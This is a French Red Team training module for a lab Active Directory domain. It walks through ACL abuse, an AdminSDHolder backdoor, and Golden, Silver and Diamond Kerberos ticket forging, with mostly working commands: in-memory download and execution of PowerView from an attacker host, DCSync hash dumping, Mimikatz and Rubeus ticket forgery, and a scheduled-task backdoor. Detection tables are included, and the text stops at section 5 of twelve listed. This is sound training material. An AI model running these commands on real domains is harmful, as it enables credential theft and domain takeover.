# Module 9 — Attaques Avancées Active Directory

**Niveau** : M9 (Red Team)  
**Durée estimée** : 1h30 (cours) + 2h30 (TP)  
**Lab** : Domaine AD `redteam.lab` (DC01, SRV01, WS01)  
**Tags MITRE ATT&CK** : T1098, T1222, T1558.001, T1558.002, T1098, T1207, T1484, T1558.003

---

## Table des matières

1. [ACL Abuse (T1098 / T1222)](#1-acl-abuse-t1098--t1222)
2. [AdminSDHolder / SDProp (T1098)](#2-adminsdholder--sdprop-t1098)
3. [Golden Ticket (T1558.001)](#3-golden-ticket-t1558001)
4. [Silver Ticket (T1558.002)](#4-silver-ticket-t1558002)
5. [Diamond Ticket](#5-diamond-ticket)
6. [Skeleton Key (T1098)](#6-skeleton-key-t1098)
7. [DCShadow (T1207)](#7-dcshadow-t1207)
8. [Trust Attacks (T1484)](#8-trust-attacks-t1484)
9. [Active Directory Certificate Services (ADCS) Abuse](#9-active-directory-certificate-services-adcs-abuse)
10. [Kerberos Delegation Abuse (T1558)](#10-kerberos-delegation-abuse-t1558)
11. [TP Synthèse](#11-tp-synthèse)
12. [Annexes](#12-annexes)

---

## 1. ACL Abuse (T1098 / T1222)

### 1.1 Comprendre les ACL Active Directory

Active Directory stocke les permissions sur chaque objet sous forme de **Discretionary Access Control List (DACL)**. Une DACL est une liste d'**Access Control Entries (ACE)** qui définissent qui peut faire quoi sur un objet.

#### Structure d'un objet AD avec ACL



Chaque ACE contient :
- **Trustee** : le SID du groupe/utilisateur qui a la permission
- **Access Mask** : le type de permission (GenericAll, GenericWrite, etc.)
- **Object Type** : éventuellement le GUID d'une propriété spécifique
- **Inheritance** : propagation aux enfants

#### Permissions critiques

| Permission | GUID | Impact |
|------------|------|--------|
| **GenericAll** (0x1F01FF) | — | Contrôle total sur l'objet |
| **GenericWrite** (0x120116) | — | Modifier les attributs de l'objet |
| **WriteOwner** | — | Prendre possession de l'objet |
| **WriteDACL** | — | Modifier la DACL (ajouter des droits) |
| **ForceChangePassword** | `00299570-246d-11d0-a768-00aa006e0529` | Changer le mot de passe sans l'ancien |
| **AllExtendedRights** | `00000000-0000-0000-0000-000000000000` | Tous les droits étendus |
| **AddMember** | `bf9679c0-0de6-11d0-a285-00aa003049e2` | Ajouter un membre à un groupe |

#### Lecture des permissions avec PowerShell

```powershell
# Lire la DACL d'un objet utilisateur
Get-Acl -Path "AD:CN=john.doe,CN=Users,DC=redteam,DC=lab" | 
    Select-Object -ExpandProperty Access |
    Format-Table IdentityReference, ActiveDirectoryRights, IsInherited
```

### 1.2 Abus de permissions pas à pas

#### Scénario : GenericAll sur un utilisateur

Si notre utilisateur `alice` a `GenericAll` sur l'utilisateur `bob.admin`, on peut :
1. Changer le mot de passe de `bob.admin`
2. Réinitialiser son mot de passe
3. Modifier son appartenance aux groupes (si `bob.admin` est dans Domain Admins)

#### Scénario : GenericWrite sur un utilisateur

Avec `GenericWrite`, on ne peut pas réinitialiser le mot de passe directement, mais on peut :
- Modifier le `servicePrincipalName` (SPN) → Kerberoasting
- Modifier le `scriptPath` → exécution au logon
- Modifier `msDS-AllowedToDelegateTo` → Resource-Based Constrained Delegation

#### Scénario : WriteDACL sur un groupe

Avec `WriteDACL` sur le groupe `Domain Admins`, on peut s'ajouter `GenericAll` sur ce groupe, puis s'ajouter comme membre.

### 1.3 BloodHound : trouver les ACL abusables

BloodHound est l'outil de référence pour cartographier les relations AD. Parmi les requêtes utiles :

```cypher
# Trouver tous les utilisateurs avec GenericAll sur un autre utilisateur
MATCH (u:User)-[:GenericAll]->(target:User)
RETURN u.name, target.name
```

```cypher
# Trouver les ACL menant à Domain Admin
MATCH (u:User)-[:GenericAll|GenericWrite|WriteOwner|WriteDACL|ForceChangePassword]->(g:Group)
WHERE g.name = "DOMAIN ADMINS@REDTEAM.LAB"
RETURN u.name, g.name
```

```cypher
# Chemin complet de ACL abuse
MATCH p = (u:User)-[:GenericAll|GenericWrite|ForceChangePassword*1..]->(target:Group)
WHERE target.name = "DOMAIN ADMINS@REDTEAM.LAB"
RETURN p
```

#### Mapping permission → BloodHound Edge

| ACL | Edge BloodHound | Impact |
|-----|-----------------|--------|
| GenericAll | `GenericAll` | Full control |
| GenericWrite | `GenericWrite` | Write attributes |
| WriteOwner | `WriteOwner` | Take ownership |
| WriteDACL | `WriteDacl` | Modify ACL |
| ForceChangePassword | `ForceChangePassword` | Reset password (user) |
| AddMember | `AddMember` | Add user to group |
| AllExtendedRights | `AllExtendedRights` | All extended rights |

### 1.4 PowerView (PowerSploit)

#### Installation et chargement

```powershell
# Téléchargement et import de PowerView
IEX (New-Object Net.WebClient).DownloadString('http://kali:8080/PowerView.ps1')
# Ou chargement local
Import-Module .\PowerView.ps1
```

#### Get-ObjectAcl — Énumération des ACL

```powershell
# Récupérer la DACL d'un utilisateur
Get-ObjectAcl -Identity "john.doe"

# Récupérer la DACL avec résolution SID
Get-ObjectAcl -Identity "john.doe" | 
    Select-Object @{n="Trustee";e={Convert-SidToName $_.SecurityIdentifier}},
                  ActiveDirectoryRights,
                  AccessControlType

# Chercher des ACL abusables sur tout le domaine
Get-ObjectAcl -ResolveGUIDs | 
    Where-Object {
        $_.ActiveDirectoryRights -match "GenericAll|GenericWrite|WriteDacl|WriteOwner"
    } |
    Select-Object IdentityReference, ActiveDirectoryRights, ObjectDN
```

#### Add-ObjectAcl — Ajout de permissions

```powershell
# S'ajouter GenericAll sur un utilisateur cible
Add-ObjectAcl -TargetSamAccountName "bob.admin" -PrincipalSamAccountName "alice" -Rights All

# S'ajouter le droit d'ajouter des membres à un groupe
Add-ObjectAcl -TargetSamAccountName "Domain Admins" -PrincipalSamAccountName "alice" -Rights "WriteMembers"
```

#### Set-DomainUserPassword — Changer le mot de passe

```powershell
# Via PowerView avec les droits suffisants
Set-DomainUserPassword -Identity "bob.admin" -AccountPassword (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force)
```

### 1.5 Impacket dacledit.py

Impacket fournit `dacledit.py` pour manipuler les DACL à distance depuis Linux.

```bash
# Syntaxe générale
dacledit.py -action <read|write> -target <DN> -principal <DN> <domain>/<user>:<password>

# Lecture de la DACL d'un utilisateur
dacledit.py -action read \
    -target "CN=bob admin,CN=Users,DC=redteam,DC=lab" \
    "redteam.lab"/"alice":"Passw0rd!"

# Ajout de GenericAll sur un utilisateur
dacledit.py -action write \
    -target "CN=bob admin,CN=Users,DC=redteam,DC=lab" \
    -principal "CN=alice,CN=Users,DC=redteam,DC=lab" \
    -grant "GenericAll" \
    "redteam.lab"/"alice":"Passw0rd!"
```

#### Paramètres importants

| Paramètre | Description |
|-----------|-------------|
| `-action read/write` | Lire ou écrire la DACL |
| `-target` | Distinguished Name de l'objet cible |
| `-principal` | Distinguished Name du trustee (bénéficiaire) |
| `-grant` | Permission à ajouter (GenericAll, GenericWrite, WriteDacl) |
| `-revoke` | Permission à retirer |

### 1.6 TP guidé : Abuser d'un ACE GenericAll pour devenir admin

#### Objectif
Partant de l'utilisateur `alice` qui a `GenericAll` sur `bob.admin` (membre de Domain Admins), récupérer un accès Domain Admin.

#### Étape 1 : Énumération avec BloodHound

```bash
# Collecte des données AD
bloodhound-python -u alice -p 'Passw0rd!' -d redteam.lab -dc dc01.redteam.lab -ns 192.168.56.10 -c all
```

Ouvrir BloodHound, importer les fichiers JSON, puis :

```cypher
// Requête : trouver le plus court chemin vers Domain Admin
MATCH p = shortestPath((u:User)-[:GenericAll|GenericWrite|ForceChangePassword*1..]->(g:Group))
WHERE u.name = "ALICE@REDTEAM.LAB" 
  AND g.name = "DOMAIN ADMINS@REDTEAM.LAB"
RETURN p
```

#### Étape 2 : Réinitialisation du mot de passe de bob.admin

```bash
# Via Impacket
net rpc password "bob admin" "Hacked123!" -U "redteam.lab"/"alice"%"Passw0rd!" -S "dc01.redteam.lab"

# Ou via PowerView (si on est sur une machine du domaine)
Set-DomainUserPassword -Identity "bob.admin" -AccountPassword (ConvertTo-SecureString "Hacked123!" -AsPlainText -Force) -Credential $cred
```

#### Étape 3 : Utilisation du compte

```bash
# Vérifier les droits avec le compte bob.admin
crackmapexec smb dc01.redteam.lab -u "bob admin" -p "Hacked123!"

# Dump des hashes via DCSync
impacket-secretsdump "redteam.lab"/"bob admin":"Hacked123!"@dc01.redteam.lab
```

#### Étape 4 : Nettoyage des traces

```powershell
# Remettre le mot de passe d'origine
Set-DomainUserPassword -Identity "bob.admin" -AccountPassword (ConvertTo-SecureString "OriginalPass123!" -AsPlainText -Force)
```

### ACL — Tableau récapitulatif des abus

| Permission | Type d'objet | Action possible |
|-----------|-------------|-----------------|
| GenericAll | Utilisateur | Changer mot de passe, modifier attributs |
| GenericAll | Groupe | Ajouter un membre |
| GenericAll | Ordinateur | RBCD via msDS-AllowedToActOnBehalfOfOtherIdentity |
| GenericWrite | Utilisateur | Ajouter SPN → Kerberoasting |
| GenericWrite | Ordinateur | RBCD |
| WriteOwner | Groupe | Prendre ownership → WriteDACL → AddMember |
| WriteDACL | Groupe | S'ajouter GenericAll sur le groupe |
| ForceChangePassword | Utilisateur | Réinitialiser le mot de passe |
| AllExtendedRights | Utilisateur | ForceChangePassword + autres droits étendus |

---

## 2. AdminSDHolder / SDProp (T1098)

### 2.1 Principe : protéger les comptes privilégiés

Active Directory possède un mécanisme de protection automatique appelé **AdminSDHolder** (Admin SD Holder). Ce conteneur spécial (CN=AdminSDHolder,CN=System,DC=redteam,DC=lab) définit un modèle de DACL qui est appliqué périodiquement aux comptes privilégiés.

#### Processus SDProp


**SDProp** (Security Descriptor Propagator) est un processus qui s'exécute toutes les **60 minutes** sur le PDC Emulator. Il compare la DACL de l'AdminSDHolder avec celle des groupes/followers protégés et écrase toute modification sur ces derniers.

#### Groupes protégés par défaut

- Administrators
- Account Operators
- Backup Operators
- Domain Admins
- Enterprise Admins
- Domain Controllers
- Print Operators
- Read-only Domain Controllers
- Replicator
- Schema Admins
- Server Operators

### 2.2 Abus : modifier l'AdminSDHolder

Le principe de l'attaque est simple : si on a les droits **WriteDACL** ou **GenericAll** sur le conteneur `AdminSDHolder`, on peut modifier son modèle de sécurité. Dans les 60 minutes suivantes, SDProp appliquera ces permissions à **tous les comptes protégés**, y compris Domain Admins.

#### Étape 1 : Vérifier les permissions actuelles

```powershell
# Lire la DACL de l'AdminSDHolder
Get-Acl -Path "AD:CN=AdminSDHolder,CN=System,DC=redteam,DC=lab" | 
    Select-Object -ExpandProperty Access |
    Format-Table IdentityReference, ActiveDirectoryRights, AccessControlType
```

#### Étape 2 : Ajouter un utilisateur avec Full Control

```powershell
# Avec PowerView — ajouter notre utilisateur avec GenericAll sur AdminSDHolder
Add-ObjectAcl -TargetName "AdminSDHolder" -TargetADServer "CN=System,DC=redteam,DC=lab" -PrincipalSamAccountName "alice" -Rights All -Verbose

# Alternative avec ActiveDirectory module
$path = "AD:CN=AdminSDHolder,CN=System,DC=redteam,DC=lab"
$acl = Get-Acl $path
$identity = [System.Security.Principal.NTAccount]"redteam\alice"
$adRights = [System.DirectoryServices.ActiveDirectoryRights]"GenericAll"
$type = [System.Security.AccessControl.AccessControlType]"Allow"
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identity, $adRights, $type)
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```

#### Étape 3 : Attendre SDProp (ou forcer)

```powershell
# Forcer SDProp (nécessite droits admin sur le DC)
$Invocation = ([wmiclass]"root\MicrosoftActiveDirectory:Microsoft_ActiveDirectory")
$Invocation.SDPropagation("DC=redteam,DC=lab")
```

Par défaut, SDProp s'exécute toutes les **60 minutes**. On peut aussi attendre.

#### Étape 4 : Vérifier l'application

```powershell
# Après SDProp, vérifier que alice a GenericAll sur un compte protégé
Get-ObjectAcl -Identity "Domain Admins" | 
    Where-Object {$_.SecurityIdentifier -eq (Get-DomainUser alice).objectsid}
```

Désormais, `alice` peut modifier n'importe quel compte protégé, y compris :
- Changer le mot de passe d'un Domain Admin
- Ajouter un utilisateur au groupe Domain Admins
- Effectuer un DCSync

#### Étape 5 : Backdoor persistante avec AdminSDHolder

```powershell
# Ajouter un utilisateur comme membre de Domain Admins
Add-DomainGroupMember -Identity "Domain Admins" -Members "alice" -Credential $cred

# Ou modifier un groupe protégé
Set-DomainObject -Identity "Domain Admins" -Set @{adminCount=1} -Credential $cred
```

### 2.3 Détection et contre-mesures

#### Détection

```powershell
# Vérifier les modifications récentes de l'AdminSDHolder
Get-ADObject -Identity "CN=AdminSDHolder,CN=System,DC=redteam,DC=lab" -Properties whenChanged, Modified

# Vérifier les ACL anormales sur les comptes protégés
Get-ADUser -Filter {adminCount -eq 1} -Properties memberOf, adminCount
```

#### Contre-mesures

| Mesure | Description |
|--------|-------------|
| Audit ACL | Surveiller les modifications de l'AdminSDHolder (Event ID 5136) |
| Restreindre les droits | Limiter le nombre d'administrateurs avec WriteDACL |
| Monitoring SDProp | Vérifier régulièrement les comptes protégés |
| PAM | Utiliser Microsoft Identity Manager (MIM) ou PIM |

### 2.4 TP guidé : Backdoor via AdminSDHolder

#### Objectif
Depuis un compte avec WriteDACL sur l'AdminSDHolder, créer une backdoor persistante sur tous les comptes Domain Admins.

#### Étape 1 : Vérification des droits courants

```powershell
# Identité courante
whoami
# Vérifier que l'utilisateur peut modifier AdminSDHolder
Get-Acl -Path "AD:CN=AdminSDHolder,CN=System,DC=redteam,DC=lab" | 
    Select-Object -ExpandProperty Access |
    Where-Object {$_.IdentityReference -match "alice"}
```

#### Étape 2 : Ajout de GenericAll pour notre utilisateur

```powershell
Add-ObjectAcl -TargetName "AdminSDHolder" `
    -TargetADServer "CN=System,DC=redteam,DC=lab" `
    -PrincipalSamAccountName "alice" `
    -Rights All
```

#### Étape 3 : Forcer la propagation

```powershell
# Forcer SDProp (si admin sur DC)
$Inv = ([wmiclass]"root\MicrosoftActiveDirectory:Microsoft_ActiveDirectory")
$Inv.SDPropagation("DC=redteam,DC=lab")
```

#### Étape 4 : Devenir Domain Admin

```powershell
# Ajouter alice à Domain Admins
Add-DomainGroupMember -Identity "Domain Admins" -Members "alice"
net group "Domain Admins" alice /add /domain

# Vérifier
net group "Domain Admins" /domain
```

---

## 3. Golden Ticket (T1558.001)

### 3.1 Principe : forger un TGT avec le hash KRBTGT

Le **Golden Ticket** est une technique qui permet de forger un **Ticket Granting Ticket (TGT)** Kerberos valide pour n'importe quel utilisateur dans le domaine. Pour cela, il faut connaître le hash NTLM du compte **KRBTGT**.


#### Composants nécessaires

| Élément | Obtention |
|---------|-----------|
| Hash NTLM du compte KRBTGT | DCSync (nécessite admin DC) |
| SID du domaine | `Get-DomainSID` ou BloodHound |
| Nom du domaine | redteam.lab |
| Identifiant de l'utilisateur cible | RID 500 = Administrator |

### 3.2 Prérequis : dump KRBTGT hash via DCSync

```bash
# Méthode 1 : Impacket secretsdump
impacket-secretsdump "redteam.lab"/"Administrator":"Passw0rd!"@dc01.redteam.lab

# Dans la sortie, chercher la ligne :
# redteam.lab\krbtgt:<RID>:<LM>:<NT hash>:::

# Méthode 2 : Mimikatz (depuis un DC)
mimikatz.exe "lsadump::dcsync /domain:redteam.lab /user:krbtgt" exit
```

#### Exemple de sortie DCSync

```
Domain : REDTEAM.LAB / S-1-5-21-123456789-123456789-123456789
RID  : 000001f6 (502)
user : krbtgt

Hash NTLM: aaaaaabbbbbbccccccddddddeeeeeeee
lm  : aaaaaabbbbbbccccccddddddeeeeeeee
```

### 3.3 Mimikatz kerberos::golden

```powershell
# Forger un Golden Ticket pour Administrator
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /user:Administrator /krbtgt:aaaaaabbbbbbccccccddddddeeeeeeee /id:500 /groups:512,513,518,519 /ptt" exit
```

#### Paramètres détaillés

| Paramètre | Valeur | Description |
|-----------|--------|-------------|
| `/domain` | `redteam.lab` | Nom de domaine complet |
| `/sid` | `S-1-5-21-...` | SID du domaine (sans le RID) |
| `/user` | `Administrator` | Nom de l'utilisateur à usurper |
| `/krbtgt` | `aaaaaabbb...` | Hash NTLM du compte KRBTGT |
| `/id` | `500` | RID de l'utilisateur (500 = Administrator) |
| `/groups` | `512,513,518,519` | RID des groupes : Domain Admins (512), Domain Users (513), Schema Admins (518), Enterprise Admins (519) |
| `/ptt` | — | Injecte le ticket directement (Pass-The-Ticket) |
| `/ticket` | `ticket.kirbi` | Sauvegarde le ticket dans un fichier |

#### Vérification du ticket

```powershell
# Lister les tickets Kerberos dans la session
klist

# Vérifier l'accès au DC
dir \\dc01.redteam.lab\c$

# Schéduler une tâche
schtasks /create /S dc01.redteam.lab /SC ONCE /ST 12:00 /TN Test /TR "calc"

# DCSync avec le ticket
lsadump::dcsync /domain:redteam.lab /user:Administrator
```

### 3.4 Impacket ticketer.py

```bash
# Créer un Golden Ticket avec Impacket
ticketer.py -nthash aaaaaabbbbbbccccccddddddeeeeeeee \
    -domain-sid S-1-5-21-123456789-123456789-123456789 \
    -domain redteam.lab \
    -user Administrator \
    -groups 512,513,518,519 \
    -duration 10

# Le ticket est sauvegardé dans Administrator.ccache

# Utilisation du ticket
export KRB5CCNAME=/path/to/Administrator.ccache

# Accès au DC
smbclient.py -k dc01.redteam.lab -no-pass

# DCSync
secretsdump.py -k redteam.lab/dc01.redteam.lab -no-pass
```

### 3.5 TP guidé : Golden Ticket pour Domain Admin

#### Objectif
Depuis un accès Domain Admin, extraire le hash KRBTGT et forger un Golden Ticket persistant.

#### Étape 1 : Extraire le hash KRBTGT

```bash
# Depuis Kali
impacket-secretsdump "redteam.lab"/Administrator:"Passw0rd!"@192.168.56.10

# Noter le hash NTLM de krbtgt (ligne contenant krbtgt)
# Exemple : redteam.lab\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f:::
```

#### Étape 2 : Forger le Golden Ticket (Mimikatz)

```powershell
# Sur une machine Windows du domaine
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /user:Administrator /krbtgt:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f /id:500 /groups:512,513,518,519 /ptt" exit
```

#### Étape 3 : Forger le Golden Ticket (Impacket)

```bash
# Depuis Kali
ticketer.py -nthash 5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f \
    -domain-sid S-1-5-21-123456789-123456789-123456789 \
    -domain redteam.lab \
    -user Administrator \
    -groups 512,513,518,519 \
    -duration 365
```

#### Étape 4 : Utilisation

```bash
# Exporter le ticket Kerberos
export KRB5CCNAME=Administrator.ccache

# Vérifier l'accès
crackmapexec smb dc01.redteam.lab -k --use-kcache

# Dump des hashes
impacket-secretsdump -k dc01.redteam.lab -no-pass
```

#### Étape 5 : Persistance

```bash
# Sauvegarder le ticket pour réutilisation
cp Administrator.ccache /tmp/golden_ticket.bak
```

### 3.6 Détection et contre-mesures

| Indicateur | Description |
|------------|-------------|
| Event ID 4624 | Logon avec un ticket forgé (durée anormale) |
| Event ID 4672 | Privilèges anormaux assignés |
| Durée du TGT | Un TGT valide > 10h est suspect (sauf config) |
| KRBTGT password change | Le KRBTGT n'est jamais changé par défaut |

#### Contre-mesures

- **Changer le mot de passe KRBTGT deux fois** de suite (tous les 180 jours)
- **Utiliser** `Reset-ADKRBKey` ou le script MS `New-KrbtgtKeys.ps1`
- **Monitoring** des événements 4769, 4770, 4771 (Kerberos Service Ticket Operations)
- **Détection** avec les règles Sigma pour Golden Ticket

---

## 4. Silver Ticket (T1558.002)

### 4.1 Principe : forger un TGS pour un service spécifique

Un **Silver Ticket** est un **Ticket Granting Service (TGS)** forgé pour un service spécifique. Contrairement au Golden Ticket, il ne nécessite pas le hash KRBTGT, mais le hash du compte **machine/service** qui exécute le service cible.

#### Comparaison Golden vs Silver



#### Services cibles classiques

| Service | Port | Compte nécessaire | Accès obtenu |
|---------|------|-------------------|--------------|
| CIFS | 445 | DC$ | Accès fichiers partagés |
| HTTP | 80/443 | Serveur web | Accès web |
| LDAP | 389 | DC$ | Interrogation AD |
| HOST | — | Serveur | Tâches planifiées |
| MSSQLSvc | 1433 | SQL Server | Accès base de données |
| WWW | 80/443 | Serveur web | Accès IIS |

### 4.2 Mimikatz kerberos::golden /service:

```powershell
# Forger un Silver Ticket pour le service CIFS
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /service:CIFS /rc4:aaaaaabbbbbbccccccddddddeeeeeeee /user:Administrator /id:500 /groups:512 /ptt" exit

# Forger un Silver Ticket pour le service HTTP
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /service:HTTP /rc4:aaaaaabbbbbbccccccddddddeeeeeeee /user:Administrator /id:500 /groups:512 /ptt" exit
```

#### Paramètres spécifiques Silver Ticket

| Paramètre | Description |
|-----------|-------------|
| `/target` | Hostname du serveur cible (DC01.redteam.lab) |
| `/service` | Type de service (CIFS, HTTP, LDAP, HOST, etc.) |
| `/rc4` | Hash NTLM du compte **machine** ou **service** |
| `user` | Nom d'utilisateur (peut être n'importe quoi) |
| `/id` | RID (500 pour admin local) |

### 4.3 Impacket ticketer.py

```bash
# Silver Ticket CIFS avec Impacket
ticketer.py -nthash aaaaaabbbbbbccccccddddddeeeeeeee \
    -domain-sid S-1-5-21-123456789-123456789-123456789 \
    -domain redteam.lab \
    -user Administrator \
    -extra-sid DC01$ \
    -groups 512 \
    -duration 10

# Utilisation
export KRB5CCNAME=Administrator.ccache
smbclient.py -k dc01.redteam.lab -no-pass
```

### 4.4 Obtention du hash du compte machine

```bash
# Via secretsdump
impacket-secretsdump "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab

# Dans la sortie, chercher le hash du compte machine (DC01$)
# redteam.lab\DC01$:<RID>:<LM>:<NT hash>:::

# Via SAM local (si admin sur la machine)
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

### 4.5 TP guidé : Silver Ticket CIFS

#### Objectif
Générer un Silver Ticket pour le service CIFS du DC et accéder aux fichiers partagés.

#### Étape 1 : Récupérer le hash du compte DC01$

```bash
impacket-secretsdump "redteam.lab"/Administrator:"Passw0rd!"@192.168.56.10

# Extraire la ligne DC01$ 
# redteam.lab\DC01$:1000:aad3b435b51404eeaad3b435b51404ee:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f:::
```

#### Étape 2 : Forger le Silver Ticket

```bash
# Méthode Impacket
ticketer.py -nthash 5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f \
    -domain-sid S-1-5-21-123456789-123456789-123456789 \
    -domain redteam.lab \
    -user Administrator \
    -groups 512 \
    -duration 10

export KRB5CCNAME=Administrator.ccache
smbclient.py -k dc01.redteam.lab -no-pass
```

#### Étape 3 : Forger avec Mimikatz (Windows)

```powershell
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /service:CIFS /rc4:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f /user:Administrator /id:500 /groups:512,513,518,519 /ptt" exit

# Vérifier
klist
dir \\dc01.redteam.lab\c$
```

#### Étape 4 : Silver Ticket pour HOST (tâches planifiées)

```powershell
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /service:HOST /rc4:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f /user:Administrator /id:500 /groups:512,513,518,519 /ptt" exit

# Exécution distante
schtasks /create /S dc01.redteam.lab /SC ONCE /ST 12:00 /TN Backdoor /TR "powershell -enc <base64>"
schtasks /run /S dc01.redteam.lab /TN Backdoor
```

### 4.6 Détection Silver Ticket

| Indicateur | Détail |
|------------|--------|
| **Event ID 4624** | Logon type 3 avec niveau d'authentification Kerberos |
| **Event ID 4634** | Déconnexion avec ticket forgé |
| **Numeric ID du service** | Le SPN peut ne pas correspondre à un service réel |
| **Durée anormale** | Ticket avec durée excessive (> 10h) |
| **Pas de TGT préalable** | Un TGS sans TGT correspondant (Logon sans Event 4768) |

---

## 5. Diamond Ticket

### 5.1 Principe : modifier un TGT existant

Le **Diamond Ticket** est une technique plus discrète que le Golden Ticket. Au lieu de forger un TGT depuis zéro, on **décrypte un TGT légitime** (émis par le KDC), on modifie les claims (SID, groupes), puis on le rechiffre avec le hash KRBTGT.



#### Avantages du Diamond Ticket

| Critère | Golden Ticket | Diamond Ticket |
|---------|--------------|----------------|
| **Visibilité** | Élevée (TGT forgé) | Faible (TGT modifié) |
| **Log Kerberos** | Pas de Event 4768 | Event 4768 existe (TGT réel) |
| **Détection** | Facile (durée, SID) | Difficile (paramètres réels) |
| **KRBTGT hash** | Requis | Requis (décrypt + encrypt) |
| **TGT réel** | Non requis | Requis (demander un TGT) |

### 5.2 Rubeus diamond

#### Demande de TGT légitime

```cmd
# Obtenir un TGT pour l'utilisateur courant
runas /user:redteam\alice cmd
klist
```

#### Rubeus — Diamond Ticket

```powershell
# Avec Rubeus
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /krbkey:aaaaaabbbbbbccccccddddddeeeeeeee /nowrap

# Explication des paramètres :
# /tgtdeleg : utilise le TGT de la session courante comme base
# /ticketuser:Administrator : utilisateur cible du ticket modifié
# /ticketuserid:500 : RID de l'utilisateur cible
# /groups:512 : RID du groupe Domain Admins
# /krbkey : hash AES256 ou RC4 du KRBTGT
# /nowrap : ne pas wrappper le ticket en base64
```

#### Options avancées Rubeus

```powershell
# Diamond Ticket avec SID supplementaire
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512,513,518 /sids:"S-1-5-21-123456789-123456789-123456789-519" /krbkey:aaaaaabbbbbbccccccddddddeeeeeeee

# Diamond Ticket avec export du ticket
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /krbkey:aaaaaabbbbbbccccccddddddeeeeeeee /outfile:diamond.kirbi
```

### 5.3 Diamond avec Impacket

```bash
# Étape 1 : Obtenir un TGT légitime
impacket-getTGT redteam.lab/alice:Passw0rd! -dc-ip 192.168.56.10

# Étape 2 : Forger un Diamond Ticket à partir de ce TGT
# (Pas d'outil direct dans Impacket — nécessite script custom)
# Alternative : utiliser le TGS d'un service existant
impacket-getST -spn cifs/dc01.redteam.lab -impersonate Administrator redteam.lab/alice:Passw0rd! -dc-ip 192.168.56.10
```

### 5.4 Comparaison approfondie

| Aspect | Golden | Silver | Diamond |
|--------|--------|--------|---------|
| **Hash requis** | KRBTGT | Machine/Service | KRBTGT |
| **Portée** | Domaine entier | Service spécifique | Domaine entier |
| **Durée** | Configurable (10 ans) | Configurable (10 ans) | Celle du TGT original + 10 min |
| **Event 4768 (AS-REQ)** | Non (pas de log) | Non (TGS uniquement) | Oui (TGT réel existait) |
| **Event 4769 (TGS-REQ)** | Non | Oui (TGS forgé) | Oui (TGS légitime) |
| **Détection par SOC** | Facile | Moyenne (vérifier SPN) | Difficile |
| **Rétablissement** | Changer KRBTGT × 2 | Changer mot de passe machine | Changer KRBTGT × 2 |

